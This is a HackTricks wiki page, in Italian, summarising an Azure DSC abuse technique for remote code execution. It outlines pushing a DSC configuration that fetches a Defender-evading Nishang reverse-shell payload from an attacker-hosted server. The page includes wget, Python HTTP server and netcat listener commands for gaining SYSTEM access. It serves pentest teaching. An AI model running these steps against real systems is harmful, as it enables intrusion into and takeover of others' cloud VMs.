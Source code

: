 # Az - State Configuration RCE

{{#include ../../../../banners/hacktricks-training.md}}

**Controlla il post completo in:** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Riepilogo della Preparazione e dei Passaggi dell'Infrastruttura del Server Remoto (C2)

#### Panoramica

Il processo prevede la configurazione di un'infrastruttura di server remoto per ospitare un payload modificato di Nishang `Invoke-PowerShellTcp.ps1`, chiamato `RevPS.ps1`, progettato per eludere Windows Defender. Il payload è servito da una macchina Kali Linux con IP `40.84.7.74` utilizzando un semplice server HTTP Python. L'operazione viene eseguita attraverso diversi passaggi:

#### Passo 1 — Creare File

- **File Richiesti:** Sono necessari due script PowerShell:
1. `reverse_shell_config.ps1`: Un file di Desired State Configuration (DSC) che recupera ed esegue il payload. È disponibile su [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse_shell_config.ps1).
2. `push_reverse_shell_config.ps1`: Uno script per pubblicare la configurazione sulla VM, disponibile su [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push_reverse_shell_config.ps1).
- **Personalizzazione:** Le variabili e i parametri in questi file devono essere adattati all'ambiente specifico dell'utente, inclusi nomi delle risorse, percorsi dei file e identificatori di server/payload.

#### Passo 2 — Comprimere il File di Configurazione

- Il `reverse_shell_config.ps1` viene compresso in un file `.zip`, rendendolo pronto per il trasferimento all'Azure Storage Account.
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Step 3 — Imposta il contesto di archiviazione e carica

- Il file di configurazione compresso viene caricato in un contenitore di archiviazione Azure predefinito, azure-pentest, utilizzando il cmdlet Set-AzStorageBlobContent di Azure.
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Step 4 — Prep Kali Box

- Il server Kali scarica il payload RevPS.ps1 da un repository GitHub.
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
- Lo script viene modificato per specificare la VM Windows target e la porta per la reverse shell.

#### Step 5 — Pubblica il file di configurazione

- Il file di configurazione viene eseguito, risultando nel deployment dello script della reverse shell nella posizione specificata sulla VM Windows.

#### Step 6 — Ospita il payload e imposta il listener

- Viene avviato un Python SimpleHTTPServer per ospitare il payload, insieme a un listener Netcat per catturare le connessioni in arrivo.
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
- Il compito pianificato esegue il payload, ottenendo privilegi a livello di SYSTEM.

#### Conclusione

L'esecuzione riuscita di questo processo apre numerose possibilità per ulteriori azioni, come il dumping delle credenziali o l'espansione dell'attacco a più VM. La guida incoraggia un apprendimento continuo e la creatività nel campo di Azure Automation DSC.

{{#include ../../../../banners/hacktricks-training.md}}
